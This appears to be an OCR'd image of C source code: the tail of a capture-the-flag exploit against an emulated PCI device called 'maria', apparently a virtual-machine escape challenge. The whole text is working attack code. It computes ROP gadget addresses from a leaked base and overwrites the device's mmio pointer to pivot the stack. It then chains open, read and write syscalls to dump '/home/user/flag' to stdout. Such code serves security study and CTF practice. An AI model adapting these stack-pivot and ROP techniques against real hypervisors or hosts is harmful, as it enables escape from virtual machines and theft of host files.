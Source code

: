 ```c
	// gadget to pivot on rax (which contains maria->opaque
	uint64_t gadget = progbase + 0x0000000000b1088a; /* push rax ; pop rsp ; mov eax, 1 ; pop rbp ; ret */
	uint64_t pop_rdi = progbase + 0x0000000000632c5d; /* pop rdi ; ret */
	uint64_t pop_rsi = progbase + 0x00000000004d4db3; /* pop rsi ; ret */
	uint64_t pop_rdx = progbase + 0x000000000047f5c8; /* pop rdx ; ret */
	uint64_t pop_rax = progbase + 0x00000000003643a4; /* pop rax ; ret */
	uint64_t syscall = progbase + 0x00000000004a22ec; /* syscall; add cl, cl; ret; */
	uint64_t xchg_edi_eax = progbase + 0x00000000003584d5; /* xchg edi, eax ; ret */
	uint64_t xchg_edx_eax = progbase + 0x0000000000309c8a; /* xchg edx, eax ; ret */


    uint64_t *rop = (buff+(0x2000-0xf0)-0x700);
    *(unsigned long long *)(buff+(0x2000-0xf0)+0x48) =  ((mariastate+0x2a30)-0x800);	// replace maria->mmio by our gadget
    *(unsigned long long *)(buff+(0x2000-0xf0)+0x50) =  ((mariastate+0x2a30)-0x700);	// place to put our ROP
    *(unsigned long long *)(buff+(0x2000-0xf0)-0x800) = gadget;
    *(unsigned long long *)(buff+(0x2000-0xf0)-0x7f8) = gadget;

	strcpy(buff+(0x2000-0xf0)-0x500, "/home/user/flag");
	/*-------------------------------------  our ROP, in majesty... */
	/* open("/home/user/flag", O_RDONLY) */
	*rop++ = 0xdeadbeef;
	*rop++ = pop_rdi;
	*rop++ = ((mariastate+0x2a30)-0x500); 
	*rop++ = pop_rsi;
	*rop++ = 0;
	*rop++ = pop_rax;
	*rop++ = 2;
	*rop++ = syscall;
	/* read file */
	*rop++ = xchg_edi_eax;
	*rop++ = pop_rsi;
	*rop++ = ((mariastate+0x2a30)-0x400);
	*rop++ = pop_rdx;
	*rop++ = 0x100;
	*rop++ = pop_rax;
	*rop++ = 0;
	*rop++ = syscall;
	/* write content to stdout */
	*rop++ = xchg_edx_eax;
	*rop++ = pop_rdi;
	*rop++ = 1;
	*rop++ = pop_rax;
	*rop++ = 1;
	*rop++ = syscall;
	/* exit */
	*rop++ = pop_rax;
	*rop++ = 60;
	*rop++ = syscall;

	set_buff();
	set_off(0);

    munmap(mmio_mem, PAGE_SIZE*4);
    close(mmio_fd);
}
```
